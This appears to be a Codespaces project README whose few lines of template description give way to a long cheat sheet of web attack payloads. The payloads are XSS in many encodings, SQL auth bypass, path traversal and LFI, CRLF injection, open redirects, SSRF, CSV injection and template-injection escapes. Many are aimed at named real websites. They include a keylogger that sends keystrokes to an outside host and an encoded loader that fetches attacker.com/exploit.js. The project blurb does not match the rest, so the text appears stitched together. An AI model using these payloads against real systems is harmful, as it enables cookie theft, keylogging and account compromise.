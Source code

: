
# Haikus for Codespaces

This is a quicks node project template for demoing Codespaces. It is based off of the [Azure node sample](https://github.com/Azure-Samples/nodejs-docs-hello-world). It's great!!!

"><img src=x onerror=prompt(1)>

abc?locale=<svg/onload=alert(1)>

<iframe src="data:text/html,<script>alert(1)</script>" csp="script-src none;">

'"></title></script><img src=x onerror=confirm(1)>

"></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>

"><img src="x" onerror="alert(document.cookie)">

†‡•＜img src=a onerror=javascript:alert('hacked')>…‰€

reflected www.dota2.com/international/live/5/5/1})}});alert(document.cookie);(test=>{{({<!--

<script>alert();</script>"><<script>alert();</script>img src=x onerror=alert();><script>alert();</script>

<<scrip<scriptT>alert(1);

<svg%0Ao%00nload=%09((pro\u006dpt))()//

https://www.yahoo.com/author/"><%2fscript><script>alert(document.domain)<%2fscript>

<svg> <a xml:base="javascript:alert(1)//" href="#"><circle r="100" /> </svg>

auth bypass: 0'or'0'='0

https://m.facebook.com/login.php?skip_api_login=1&api_key=531310443646320&signed_next=1&next=https://m.facebook.com/v2.5/dialog/oauth&cancel_url=javascript:var+test=document.getElementById(%27m_login_email%27).value;prompt(test);

xss on firefox: <input disabled style="position:fixed;top:0;left:0;border:999em solid red;" onmouseover="alert(1)">

open redirect: python redirect.py payloads.list www.etsy.com

https://www.private-bounty.com/Deactivate?utm_content=foo&utm_medium=bar&utm_source=baz&utm_foobarbaz');alert(1)//

"><svg/onload=prompt(document.cookie)>

email/xss (usar ao enviar convites > checar enviados) : <svg/onload=alert(document.cookie)>abcdef@test.com

<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

redirect xss  "><img src=x onerror=eval(atob('dmFyIHBheWxvYWQxID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7CnBheWxvYWQxLnNldEF0dHJpYnV0ZSgnc3JjJywnaHR0cHM6Ly9hdHRhY2tlci5jb20vZXhwbG9pdC5qcycpOwpkb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKHBheWxvYWQxKTsn'))>.png

https://finance.yahoo.com/quote/"></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>

// # "><svg/onload=prompt(1)>

 /*-->]]>%>?></object></script></title></textarea></noscript></style></xmp>'-/"/-alert(1)//><img src=1 onerror=alert(1)>'

test"> <img src="x" onerror="prompt(domain)"></img>

path transversal: http://help.vulntome.com/@app/skin/views/%5c../%5c../%5c../%5c../%5c../%5c../%5c../etc/passwd.html

URL: data:text/html,<script src="https://syndication.twitter.com/widgets/timelines/246079887021051904?callback=alert"></script> 

on HTML editor: <img src="http://897theriver.com" SRC=""></textarea><script>alert(document.domain);</script>">

https://accounts2.apigee.com/accounts/reset_password/?uuid=d3a19292-30fd-11e7-b5p3%3C/script%3E%3Cimg%20src%3dx%20onerror=alert(document.cookie)%20%3E-0ec7f1868a1c&access_token=ZW0tVIjZRDxOEeezS4fZ4audIPMcc2ic57GzvXGbc6OQqnntq00

Host: -->test"<img src=a onerror=alert('xss')>

https://website/download?background=file.jpg&author=Brett&header=<img src="x" onerror="window.location='https://xss.buer.haus/'" />&text=&width=500&height=500

javascript://google.com/?x=%0Aalert`Hi!`;document.body.firstElementChild.children[0].firstElementChild.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.children[2].children[1].firstElementChild[4].click

https://hackerone.com/reports/146278

img = document.createElement('img');
img.src = '//brutelogic.com.br/brutality.jpg';
document.body.insertBefore(img, document.body.firstChild);
new Audio('//brutelogic.com.br/brutality.mp3').play();

http[s]://<SHAREPOINT URL>?FollowSite=0&SiteName='-confirm(document.domain)-'

X-Forwarded-Host: evil.com

LFI: http://vulnerable_host/preview.php?file=../../../../etc/passwd

Password hijacking:https://hackerone.com/reports/226659

sitemap: http://www.scriptsocket.com/cgi-bin/sitemaps/generate.cgi

Host reader injection: https://hackerone.com/reports/221908

http://;URL=javascript:alert('XSS');">

http://brutelogic.com.br/blog/cheat-sheet/?utm_content=36815409&utm_medium=social&utm_source=twitter

---- http://www.talktohacker.com/2014/08/download-free-collection-of-50-hacking.html ----

https://www.shopify.com/signup?signup_type=%27|alert%28%27XSS%27%29|%27

http://bugdisclose.blogspot.com.br/2016/12/cheatsheet-open-authentication-oauth.html

https://share.oculusvr.com/accept-revised-terms?redirect=javascript:alert(document.cookie+oculusvr.com)

https://www.uber.com/?kxsrc=https%3A//beacon.krxd.net/optout_check%3Fcallback%3Dalert%28/XSSED/.source%29

http://love.uber.com/australia/?icl_action=reminder_popup&target=javascript%3aalert%28%2fhello+world%2f%29%3b%2f%2f

"><script>confirm(document.domain)</script>

<svg width=12cm height=9cm><a><image href=//brutelogic.com.br/yt.jpg /><animate attributeName=href values=javas&#99ript:alert(1)>

<meter onmouseover="alert(1)"

<button/onclick=alert(1)>M</button>
<form><button formaction=javascript&colon;alert(1)>M
<button onfocus=alert(1) autofocus>

<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k=domain.com/?k= "+String.fromCharCode(e.which))},this.remove();'>

<a href="" onmousedown="var name = '&#39;;alert(document.URL)//'; alert('smthg')">Link</a>

<a href="/cdn-cgi/l/email-protection#90f1" onmouseover ="alert (1)">hover</a>

"onmouseenter=confirm(1)>

%uff1cscript%uff1ealert(1)%uff1c/script%uff1e

SVG file: https://cdn.shopify.com/s/files/1/0224/0965/uploads/1fc1042c960abdb2f35c0950900a7b2c.svg
SVG redirect: https://cdn.shopify.com/s/files/1/0958/6762/files/redirect.svg?14575186218349865855

XSS on mailto: <a href="mailto:support@web.site?subject=error reference: "onmouseover=alert(9);a="">support@web.site</a>

Redirect: https://trello.com//google.com/%2f..

http://www.lahitapiola.fi///;@inexistantdomain.com

http://newscdn.starbucks.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e

SSRF: https://www.youtube.com/shared?ci=KMTm7HpXi04////http://scanme.nmap.org:22/index.html

CSV injection: https://hackerone.com/reports/126109

swf: https://sandbox.open-xchange.com/appsuite/apps/3rd.party/mediaelement/flashmediaelement.swf?jsinitfunctio%gn=alert`1`

<script>alert('hello')</script>

XSS on image upload using URL: http://host/path/to/image'onerror=alert(1);//.png

Misconfiguration in Two Factor Authorization: https://hackerone.com/reports/178293

Homograph attack: http://ebаy.com/

RFD: ="||calc||

https://team.badoo.com/%0d%0adata:text/html;text,%3Csvg%2fonload%3Dprompt%281%29%3E

<a href="javascript:alert(1)">Poc</a>

<output name="jAvAsCriPt://&NewLine;\u0061ler&#116(1)" onclick="eval(name)">X</output>

<a href="java\[0x0a]script:alert(1)">Poc</a>

checar SSLV3: nmap -sV -Pn --version-light --script ssl-poodle -p 443 198.199.102.190

nmap --script ssl-enum-ciphers -p 443 lastpass.com

Trace method: curl -vX TRACE "https://gratipay.com"

 "></div></form></script><script>alert()</script><iframe src="www.google.com" onload="alert()">

Content injection: http://nextcloud.com/%2f%20been%20changed%20to%20https://www.ATTACKER.COM.%20so%20please%20visit%20https://www.ATTACKER.COM%20as%20your%20requested%20link

https://dashboard.sucuri.net/has%2f%20been%20changed%20to%20https://www.ATTACKER.COM.%20so%20please%20visit%20https://www.ATTACKER.COM%20as%20your%20requested%20link

https://blog.trello.com/%0aSet-Cookie:CRLF=INJECTION;domain=.trello.com

dicas: https://docs.google.com/spreadsheets/d/1TxNrvaIMRS_dmupcwjwJmXtaFk_lPGE1LzgxPu_7KqA/edit#gid=1308919623

<a href="http://google.com" onclick="alert(document.cookie)">Google</a>

<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">test</a>

http://www.sucuri.net/%0D%0ASet-Cookie:mycookie=myvalue

https://84692bb0df6f30fc0687-25dde2f20b8e8c1bda75aeb96f737eae.ssl.cf1.rackcdn.com/--xss.html

CSRF token reuse https://hackerone.com/reports/49974

CSRF connect accounts like Twitter: https://hackerone.com/reports/30142

http://site.com/ems/auth/twofactor/?username=admin%22%3E%3Cscript%3Ealert%28document.domain%29;%3C/script%3E 

Subdomains: http://www.wolframalpha.com/ and https://findsubdomains.com/subdomains-of/tradeshift.com / https://crt.sh/?q=%25.tradeshift.com / https://subdomainfinder.c99.nl/

http://www.webtoolhub.com/tn561347-mx-ns-soa-record-lookup.aspx

Subdomain takeover: http://tayyabqadir.com/2016/08/09/subdomain-takeover-in-cex-io-by-tayyab/

https://store.ubnt.com/skin/adminhtml/default/media/uploader.swf?bridgeName=1\"]))%3Balert(1)}catch(e){alert(document.domain)}//

</script><script>alert('xss')</script>

http://ubermovement.com/community/daniel?citySource=javascript:alert(%27XSSED%27);//

CSV Injection

-2+3+cmd|' /C calc'!G2

<script>alert(document.domain);</script>

https://www.dropbox.com/restore/xxxx%20Team%20Folder?prev=javascript:alert(1)%3B&_subject_uid=412738972

<script>alert(1);//

XSS on xml request

https://example.com/oa_servlets/oracle.apps.bne.webui.BneApplicationService?bne:page=BneMsgBox&bne:messagexml=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20DWL%20%5B%3C%21ENTITY%20xxx%20%22%26lt;%22%3E%3C%21ENTITY%20yyy%20%22IMG%22%3E%3C%21ENTITY%20zzz%20%22SRC%22%3E%3C%21ENTITY%20ppp%20%22one%22%3E%5D%3E%3Cmessage%3E%3Cbne:a%20xmlns%3Abne%3D%22foo%22%20bne%3Atext%3D%22ABCDEF%22%20bne%3Acause%3D%22%26xxx;%26yyy;%20%26zzz;=/x%20%26ppp;rror=alert(1)%3E%22%3E%3C/bne:a%3E%3C/message%3E

<script>alert(document.cookie)</script>

"><img src=x onerror=alert(1);>.jpeg

https://www.zaption.com/logout?returnTo=///evil.com/

https://getrush.uber.com/business?utm_campaign=tttttt%27%3C/script%3E%3Cscript%3Ealert(0)%3C/script%3E&utm_medium=top&utm_source=website'''

https://www.uber.com/careers/list/?city=allicg%3C%2fscript%3E%3Cscript%3Ealert('xss%20by%20pavanw3b')%3C%2fscript%3Efupaiiz&country=all&keywords=&subteam=all&team=all

Reflected

https://api.aboutyou.de/oauth?auth="-alert(document.domain)-"

reflected using email <h1 style="color:blue;">harisbaig010@gmail.com</h1>

https://www.bookfresh.com/index.html?view=past_activity&amp;id=gwapo&quot;&gt;&lt;svg/onload=window.onerror=alert;throw/XSS/;//

https://www.yahoo.com/author/"><%2fscript><script>alert(document.domain)<%2fscript>

https://www.mapbox.com/authorize/?redirect_uri=%27%3E%3Csvg%20onload=%27alert%28document.domain%29%27%3E

https://your.site/post_with_a_slideshow/?skin=%3C/script%3E%3Cscript%3Ealert(/XSS/.source);%3C/script%3E 

https://app.shopify.com/services/partners?signup=confirm(document.domain)&signup_action=whitehat_signup

https://developer.uber.com/docs/deep-linking?q=wrtz{{(_="".sub).call.call({}[$="constructor"].getOwnPropertyDescriptor(_.__proto__,$).value,0,"alert(1)")()}}zzzz

Stored XSS with Markdown

~"&lt;img src=x onerror=&quot;alert('hello')&quot;&gt;"

[click this link](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[Click here](javascript:alert(1))

%3Ca+href%3D%22%01java%03script%3Aconfirm%28document.domain%29%22%3EClick+to+execute%3Ca%3E%0D%0A

[clickme](vbscript:alert(document.domain))

<object data="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+">

'"><div id="test"><head><base href="javascript://"/></head><body><a href="/. /, /' onmouseover=confirm(document.domain); abc=abc">TESTLINK

Email spooting: https://hackerone.com/reports/182467

SVG upload

javascript:alert(document.domain);//https://cdn.shopify.com/s/files/1/0224/0965/uploads/1fc1042c960abdb2f35c0950900a7b2c.svg

f![alt text](https://cdn.shopify.com/s/files/1/0224/0965/uploads/1fc1042c960abdb2f35c0950900a7b2c.svg)

javascript:alert(document.domain);//https://profile-photos.hackerone-user-content.com/production/000/018/192/b834baaeff3cc64399bef4fa727d21d8d81efa86_xtralarge.jpg

Angular injection [[5*5]] : https://hackerone.com/reports/141240

{{     c=''.sub.call;b=''.sub.bind;a=''.sub.apply;     c.$apply=$apply;c.$eval=b;op=$root.$$phase;     $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;     C=c.$apply(c);$root.$$phase=op;$root.$digest=od;     B=C(b,c,b);$evalAsync("     astNode=pop();astNode.type='UnaryExpression';     astNode.operator='(window.X?void0:(window.X=true,alert(document.domain)))+';     astNode.argument={type:'Identifier',name:'foo'};     ");     m1=B($$asyncQueue.pop().expression,null,$root);     m2=B(C,null,m1);[].push.apply=m2;a=''.sub;     $eval('a(b.c)');[].push.apply=a; }}


callback=alert(/xss/);//

1+2={{1+2}}

[[constructor.constructor('alert(1)')()]]

Hyperlink injection: <a href="//www.evil.com">Welcome</a>

RCE

$(sleep 20)

https://hackerone.com/reports/125980

{{ '7'*7 }}


check SPF records

http://www.kitterman.com/spf/validate.html?

<a href="http://site.com/index?"><script>alert(1)</script>">Index</a>
<a href="http://site.com/index?test%3C%3E%27%22=test%3C%3E%27%22">Index</a>

DOM 

#onmouseover=alert('XSS')

https://scores.ubnt.com/form.html?uid=1&p=%27%20onmouseover=alert(document.domain)//

https://m.facebook.com/timeline/cover/reposition/cpid=112299582438261&redirect_uri=javascript:alert(document.domain)

DOM 2

@<script>prompt(1337)</script>gmail.com

https://www.nexmo.com/nx-wp/wp-content/themes/twentyfifteen/genericons/example.html#1"><img src=x onerror=prompt(1)>

DOM 3

http://eng.uber.com/#prettyPhoto[i]/x,<svg/onload=alert(document.domain)>/x

https://www.leaseweb.com/checkout-success/16893#"&gt;&lt;img src=x onerror=alert(document.cookie)&gt;.

DOM 4

www.paypal.com/webapps/business/#><img src=x on error=prompt(1);>

DOM 5

https://www.slackatwork.com/wp-content/themes/twentyfifteen/genericons//example.html#1<img/ src=1 onerror= alert(document.cookie)>
	
<sopas style=font-size:200px onmouseover=alert(1)>Sopas

XSS

https://www.zopim.com/#1=1&__zopim_widget_proxy=1.zopim.com/s/W/xdds/PIJ4+155G8p7LL3w/c/1444997086678%22%3E%3C/script%3E%3Csvg/onload=alert%28%22XSS%22%29%3E

XSS on email: &email=%00%00error%3A%3C%2fstrong%3E%3Cscript%3Ealert%28document.cookie%29%3B%3C%2fscript%3E%00%3B

http://www.sucuri.net/%0D%0ASet-Cookie:mycookie=myvalue

https://www.dropbox.com/restore/xxxx%20Team%20Folder?prev=javascript:alert(1)%3B&_subject_uid=412738972

https://twitter.com/intent/favorite/complete?tweet_id=572435913768366080&already_favorited=false&original_referer=javascript:alert%281%29;

http://www.myshopify.com/xxcrlftest%0aSet-Cookie:test=test3;domain=.myshopify.com;

https://twitter.com/safety/unsafe_link_warning?unsafe_link=https%3A%2F%2Ftwitter.com%2Fsafety%2Funsafe_link_warning%3Funsafe_link%3Dhttp%3A%2F%2Fexample.com%2520onmouseover%3Dalert%281%29%2520style=font-size:100pt%2520

Text injection

https://withinsecurity.com/test/%2f../It%20has%20been%20changed%20by%20a%20new%20one%20https://www.crowdcurity.com%20so%20go%20to%20the%20new%20one%20since%20this%20one

CRFL 

https://twitter.com/i/safety/report_story?next_view=report_story_start&source=reporttweet&reported_user_id=1&reporter_user_id=1&is_media=true&is_promoted=true&reported_tweet_id=%E5%98%8A%E5%98%8DSet-Cookie:%20test

/__session_start__/%0atest

https://ton.twitter.com/1.1/ton/data/dm/x/%E5%98%8A%E5%98%8Dset-cookie%3A%20test%3Dtest%3B%20Domain%3D.twitter.com%3B%20Path%3D%2F%3B%20Expires%3DSat%2C%2015-Dec-2018%2009%3A45%3A55%20UTC

http://account-global.ubnt.com/%3f%0dSet-Cookie:crlf=injection%3bdomain=.ubnt.com%3b

http://resources.infosecinstitute.com/http-response-splitting-attack/

http://insertco.in/2013/08/07/http-response-splitting-spotify/

open redirect

https://www.fabric.io/login?redirect_url=@google.com

https://dev.twitter.com/https:/%5cblackfan.ru/

https://dev.twitter.com//x:1/:///%01javascript:alert(document.cookie)/

/\mert%252eninja

https://app.mavenlink.com/logout?from_mobile=true&return_path=//google.com

https://shop.starbucks.de/<>javascript:alert(document.cookie);

<script src="https://unpkg.com/vue@latest/dist/vue.js"></script>
<div id="xss">
  <p>{{ message }} {{ toString.constructor('alert(1)')() }}</p>
</div>

<div id="137"><svg>
<a xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="?">
<circle r="400"></circle>
<animate attributeName="xlink:href" begin="0" from="javascript:alert(document.domain)" to="&" />
</a>//["'`-->]]>]</div>

